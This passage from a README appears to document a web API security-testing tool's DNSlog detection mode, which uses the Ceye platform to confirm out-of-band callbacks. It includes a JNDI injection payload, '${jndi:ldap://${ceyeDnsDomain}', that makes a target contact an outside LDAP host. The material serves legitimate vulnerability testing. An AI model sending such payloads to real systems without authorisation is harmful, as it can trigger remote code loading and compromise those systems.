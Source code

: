 DNSlog Judgment requires the security tester to provide an address to query the DNSlog results. Currently, the Web API Security Detection System only supports querying the Ceye platform(http://ceye.io/). When selecting DNSlog Judgment, the tester needs to provide their own Ceye identifier and Ceye API Token, and use "${ceyeDNSDomain}" in the payload to indicate the location to replace the Ceye identifier. Then, when the system sends a request for the attack payload message that contains the specified Ceye identifier to initiate a DNSlog query, it uses the Token provided by the security tester to send a query request to the query interface of the Ceye platform. If there is a record of this message, the test is considered successful; otherwise, it is considered a failure. 

①Log in to the CCeye platform, obtain the identifier and token, and output them to the specified location.

![image-20230430193251535](README.assets/image-20230430193251535.png)

②Test JNDI injection using the payload ${jndi:ldap://${ceyeDnsDomain}. The system will replace ${ceyeDnsDomain} with fpz8if.ceye.io (the identifier provided by the tester), and carry the ID of the message. Choose the DNSlog judgment method.

![image-20230430195329080](README.assets/image-20230430195329080.png)

③Click the start button and view the ID of the successfully tested message on the Ceye platform. It can be observed that the system attaches the ID of each message when testing, in order to distinguish which message has been successfully tested. Additionally, the system uses the token provided by the tester to retrieve the request result from the Ceye platform.
